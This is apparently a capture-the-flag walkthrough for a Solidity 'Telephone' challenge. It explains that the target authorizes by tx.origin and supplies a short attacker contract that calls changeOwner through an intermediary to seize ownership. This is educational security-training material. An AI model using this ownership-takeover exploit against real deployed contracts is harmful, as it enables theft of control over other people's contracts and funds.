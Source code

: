 # Telephone

**HINT:** Your going to want to go to remix IDE and create a contract to hack the telephone contract. The contract uses tx.orgin as an authorization. Hence making it hackable if that helps any
<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.4.18;

contract Telephone {
    function changeOwner(address _owner) public;
}

contract stealTelephone {

    function stealTelephon(address _telephone, address _owner) public {
        Telephone tel = Telephone(_telephone);
        tel.changeOwner(_owner);
    }    
}
```

You can then check using:
```js
await contract.owner()
```
</p>
</details>
